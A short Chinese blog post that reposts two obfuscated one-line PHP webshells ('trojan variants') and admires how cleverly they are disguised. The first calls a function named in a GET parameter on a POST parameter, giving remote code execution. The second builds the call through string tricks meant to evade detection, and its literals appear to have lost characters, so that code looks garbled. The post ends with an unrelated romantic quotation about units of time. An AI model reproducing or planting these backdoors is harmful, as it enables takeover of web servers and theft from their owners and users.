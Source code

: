 # PHP木马变形

两个变形的一句话php马，转载自[LCX博客](http://promiseforever.com/redirect?url=http%3A%2F%2Fhi.baidu.com%2Fmyvbscript%2Fblog%2Fitem%2Febfb9a8226ca238cf703a6b1.html&key=6db891bd644adbf6b8896bdb0f0ce63e).不得不说,变形的很巧妙。


第一种：

```php
<?php ($_=@$_GET[2]).@$_($_POST[1])?>
```

第二种：

```
<?php
$_="";
$_[+""]='';
$_="$_"."";
$_=($_[+""]|"").($_[+""]|"").($_[+""]^"");
?>
<?php ${'_'.$_}['_'](${'_'.$_}['__']);?>
```


还看到一句比较浪漫的话，记录下来。

**一刹那者为一念,二十念为一瞬,二十瞬为一弹指,二十弹指为一罗预,二十罗预为一须臾,一日一夜有三十须臾。由此可以推算出,一刹那只有0.018秒,我经常想你就在刹那间。**

